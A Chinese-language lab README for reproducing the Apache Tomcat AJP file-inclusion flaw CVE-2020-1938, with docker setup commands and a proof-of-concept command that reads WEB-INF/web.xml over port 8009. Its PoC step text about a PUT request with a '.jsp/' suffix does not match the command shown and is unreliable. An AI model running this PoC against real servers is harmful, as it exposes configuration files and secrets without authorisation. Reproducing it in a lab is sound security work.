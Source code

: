 ## Tomcat Apache Tomcat 文件包含漏洞(CVE-2020-1938)

### 漏洞信息

 * [Fixed in Apache Tomcat 8.5.51](https://tomcat.apache.org/security-8.html#Fixed_in_Apache_Tomcat_8.5.51)
 * [【威胁通告】Apache Tomcat 文件包含漏洞（CVE-2020-1938）](http://blog.nsfocus.net/cve-2020-1938/)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:t_tomcat_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:t_tomcat_2
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 向目标发起 PUT 请求，注意后缀为 `.jsp/`

```
python poc.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml
```

> POC来源:[https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
### 参考链接

* [Apache-Tomcat-Ajp漏洞(CVE-2020-1938)漏洞复现（含有poc）](https://www.cnblogs.com/L0ading/p/12341112.html)
* [Apache-Tomcat-Ajp漏洞(CVE-2020-1938)漏洞复现](https://www.liuyixiang.com/post/109123.html)

